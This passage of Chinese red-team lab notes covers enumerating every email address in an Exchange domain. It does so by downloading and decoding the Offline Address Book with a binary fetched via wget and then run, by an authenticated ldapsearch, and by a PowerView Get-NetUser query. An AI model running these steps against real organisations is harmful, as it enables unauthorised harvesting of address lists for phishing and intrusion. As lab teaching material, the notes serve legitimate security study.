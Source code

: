 请求 `<OABUrl>/oab.xml` 页面并列出 OAB 文件：

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/3.png)

找到其中 Default Global Address List (默认全局地址列表) 对应的 lzx 文件名称，lzx 文件名称为 fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx

下载 lzx 文件
```
win-4j4l8gp7bf2.f8x.com/OAB/b6eaa1c0-d7f5-4619-ad8d-b453f967353b/fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx
```

对 lzx 文件解码，还原出 Default Global Address List
```
wget http://x2100.icecube.wisc.edu/downloads/python/python2.6.Linux-x86_64.gcc-4.4.4/bin/oabextract
chmod +x oabextract
./oabextract fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx gal.oab
strings gal.oab|grep SMTP
```

#### ldap

```
ldapsearch -x -H ldap://$IP:389 -D "CN=$username,CN=Users,DC=f8x,DC=com" -w $password -b "DC=f8x,DC=com" |grep mail:
```

Windows 系统通过 PowerView 获取所有用户邮件地址
```
$uname=$username
$pwd=ConvertTo-SecureString $password -AsPlainText -Force
$cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
Get-NetUser -Domain f8x.com -DomainController $IP -ADSpath "LDAP://DC=f8x,DC=com" -Credential $cred | fl mail
```

#### 域内查询

